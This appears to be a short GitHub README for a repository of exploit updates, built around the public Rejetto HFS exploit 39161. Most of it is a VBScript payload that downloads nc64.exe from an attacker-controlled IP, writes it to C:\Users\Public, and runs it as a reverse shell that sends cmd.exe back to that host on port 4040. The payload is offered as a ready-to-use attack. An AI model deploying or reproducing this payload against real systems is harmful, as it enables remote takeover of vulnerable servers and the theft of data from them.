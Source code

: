 # CanvasTools

Series of updates for exploits

## Updates
https://github.com/darkniyt/CanvasTools/wiki

### Updates to 39161.py:  https://github.com/darkniyt/CanvasTools/blob/main/39161.py
Source:  Rejetto HFS exploit:  https://www.exploit-db.com/exploits/39161
####  Includes below changes to respctive script.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.26.69/nc64.exe", False
xHttp.Send
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc64.exe", 2 '//overwrite
end with
Set objShell20= CreateObject("WScript.Shell")
objShell.Exec("C:\Users\Public\nc64.exe -d 10.6.26.69 4040 -e cmd.exe")
